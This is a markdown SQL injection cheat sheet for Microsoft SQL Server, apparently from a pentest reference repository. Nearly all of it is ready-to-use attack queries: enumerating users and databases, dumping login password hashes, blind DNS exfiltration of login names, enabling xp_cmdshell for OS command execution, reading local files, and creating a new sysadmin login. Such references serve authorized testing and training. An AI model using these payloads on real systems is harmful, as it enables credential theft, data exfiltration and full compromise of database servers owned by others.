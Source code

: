 # ✅ MSSQL Injection Cheat Sheet

---

## 📚 References

- [Oracle](http://pentestmonkey.net/blog/oracle-sql-injection-cheat-sheet/)
- [MSSQL](http://pentestmonkey.net/blog/mssql-sql-injection-cheat-sheet/)
- [MySQL](http://pentestmonkey.net/blog/mysql-sql-injection-cheat-sheet/)
- [PostgreSQL](http://pentestmonkey.net/blog/postgres-sql-injection-cheat-sheet/)
- [Ingres](http://pentestmonkey.net/blog/ingres-sql-injection-cheat-sheet/)
- [DB2](http://pentestmonkey.net/blog/db2-sql-injection-cheat-sheet/)
- [Informix](http://pentestmonkey.net/blog/informix-sql-injection-cheat-sheet/)
- [MS Access](http://nibblesec.org/files/MSAccessSQLi/MSAccessSQLi.html)

---

## 🔎 Enumeration

### Version
```sql
SELECT @@version;
```

### Current User
```sql
SELECT user_name();
SELECT system_user;
SELECT user;
SELECT loginame FROM master..sysprocesses WHERE spid = @@SPID;
```

### List Users
```sql
SELECT name FROM master..syslogins;
```

### Password Hashes (Privileged)
```sql
-- MSSQL 2000
SELECT name, password FROM master..sysxlogins;
SELECT name, master.dbo.fn_varbintohexstr(password) FROM master..sysxlogins;

-- MSSQL 2005+
SELECT name, password_hash FROM master.sys.sql_logins;
SELECT name + '-' + master.sys.fn_varbintohexstr(password_hash) FROM master.sys.sql_logins;
```

### Crack Hashes
MSSQL 2000 & 2005 use SHA1 — try:  
https://labs.portcullis.co.uk/application/phrasen-drescher/

### Current Database
```sql
SELECT DB_NAME();
```

### List Databases
```sql
SELECT name FROM master..sysdatabases;
SELECT DB_NAME(N); -- Where N = 0, 1, 2...
```

### List Tables
```sql
SELECT name FROM master..sysobjects WHERE xtype = 'U'; -- tables
SELECT name FROM master..sysobjects WHERE xtype = 'V'; -- views
```

### List Columns (in table)
```sql
SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'mytable');
```

### Find Tables by Column Name
```sql
SELECT sysobjects.name AS tablename, syscolumns.name AS columnname
FROM sysobjects JOIN syscolumns ON sysobjects.id = syscolumns.id
WHERE sysobjects.xtype = 'U' AND syscolumns.name LIKE '%PASSWORD%';
```

### Hostname/IP
```sql
SELECT HOST_NAME();
```

---

## 🔐 Privilege Info

### Check Current Permissions
```sql
SELECT permission_name FROM fn_my_permissions(NULL, 'DATABASE');
SELECT permission_name FROM fn_my_permissions(NULL, 'SERVER');
SELECT permission_name FROM fn_my_permissions('master..syslogins', 'OBJECT');
SELECT permission_name FROM fn_my_permissions('sa', 'USER');
```

### Check Server Roles
```sql
SELECT is_srvrolemember('sysadmin');
SELECT is_srvrolemember('dbcreator');
-- repeat for bulkadmin, diskadmin, etc.
```

### List Users With Specific Roles
```sql
SELECT name FROM master..syslogins WHERE sysadmin = 1;
SELECT name FROM master..syslogins WHERE serveradmin = 1;
-- repeat for other roles...
```

---

## 🧪 Functions and Tricks

### Select Nth Row
```sql
SELECT TOP 1 name
FROM (SELECT TOP 9 name FROM master..syslogins ORDER BY name ASC) sq
ORDER BY name DESC;
```

### Select Nth Char
```sql
SELECT SUBSTRING('abcd', 3, 1); -- returns 'c'
```

### Bitwise Ops
```sql
SELECT 6 & 2; -- returns 2
SELECT 6 & 1; -- returns 0
```

### ASCII/Char Conversion
```sql
SELECT CHAR(0x41); -- returns 'A'
SELECT ASCII('A'); -- returns 65
```

### Casting
```sql
SELECT CAST('1' AS int);
SELECT CAST(1 AS char);
```

### String Concat / Avoiding Quotes
```sql
SELECT 'A' + 'B'; -- AB
SELECT CHAR(65) + CHAR(66); -- AB
```

### Conditionals
```sql
IF (1=1) SELECT 1 ELSE SELECT 2;
SELECT CASE WHEN 1=1 THEN 1 ELSE 2 END;
```

---

## ⏱ Delays & Exfil

### Time Delay
```sql
WAITFOR DELAY '0:0:5';
```

### Make DNS Requests (Blind exfil)
```sql
DECLARE @host VARCHAR(800);
SELECT @host = name FROM master..syslogins;
EXEC('master..xp_getfiledetails "\' + @host + 'c$\boot.ini"');
```

---

## ⚙️ System-Level Access (Privileged)

### Command Execution
```sql
EXEC xp_cmdshell 'net user';

-- If disabled (2005+):
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

### Local File Access
```sql
CREATE TABLE mydata (line VARCHAR(8000));
BULK INSERT mydata FROM 'C:\boot.ini';
DROP TABLE mydata;
```

### Create Users / Grant Privileges
```sql
EXEC sp_addlogin 'user', 'pass';
EXEC sp_addsrvrolemember 'user', 'sysadmin';
```

### Drop User
```sql
EXEC sp_droplogin 'user';
```

### Locate DB Files
```sql
EXEC sp_helpdb master;
EXEC sp_helpdb pubs;
```

---

## 🧰 Default/System DBs
- northwind
- model
- msdb
- pubs *(Not on SQL 2005)*
- tempdb